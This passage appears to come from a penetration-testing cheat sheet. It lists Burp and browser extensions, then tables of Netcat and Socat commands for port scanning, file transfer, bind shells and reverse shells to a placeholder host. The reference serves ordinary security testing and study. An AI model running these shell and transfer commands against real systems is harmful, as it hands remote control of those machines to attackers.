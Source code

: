 - [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler)
- [BurpCustomizer](https://github.com/CoreyD97/BurpCustomizer)
- [Burp Bounty](https://burpbounty.net/)

**Browser extensions**
- [Trufflehog Chrome Extension](https://github.com/trufflesecurity/Trufflehog-Chrome-Extension)
- [Wappalyzer](https://www.wappalyzer.com/)
- [DotGit](https://github.com/davtur19/DotGit)
- [Cookie-Editor](https://cookie-editor.cgagnier.ca/)
- [Shodan for Chrome](https://chrome.google.com/webstore/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap) and [for Firefox](https://addons.mozilla.org/en-US/firefox/addon/shodan_io/)
- If you are using FireFox, you could use [FoxyProxy](https://getfoxyproxy.org/)


## Netcat

**Misc Commands**
```
nc -nv <IP> <port>                                                       Connect to a TCP port
nc -nlvp <port>                                                          Set up a listener
nc -nv <IP> <port>                                                       Connect to a listener
nc -nlvp <port> > incoming.exe                                           Receive a file
nc -nv <IP> <port> < /usr/share/windows-resources/binaries/wget.exe      Transfer a file
nc -nlvp <port> -e cmd.exe                                               Set up a bind shell
nc -nv <IP> <port> -e /bin/bash                                          Send a reverse shell
```

**Port Scanning**
```
nc -nvv -w 1 -z <IP> <PORT-RANGE>                        Use netcat to perform a TCP port scan
nc -nv -u -z -w 1 <IP> <PORT-RANGE>                      Use netcat to perform an UDP port scan
```

## Socat

**Misc Commands**
```
socat - TCP4:<remote server's ip address>:80                                    Connect to a remote server on port 80
socat TCP4-LISTEN:<PORT> STDOUT                                                 Create a listener
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                           Create a listener, -d -d for more verbosity
socat TCP4-LISTEN:<PORT>,fork file:secret.txt                                   Transfer a file
socat TCP4:<IP>:<PORT> file:received_secret.txt,create                          Receive a file
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                           Send a reverse shell
socat OPENSSL-LISTEN:<PORT>,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash    Create an encrypted bind shell
socat - OPENSSL:<IP>:<PORT>,verify=0                                            Connect to an encrypted bind shell
```

**Reverse Shell**
```
socat -d -d TCP4-LISTEN:<PORT> STDOUT                                     User 1, create a listener
socat TCP4:<IP>:<PORT> EXEC:/bin/bash                                     User 2, send reverse shell to User 1
```
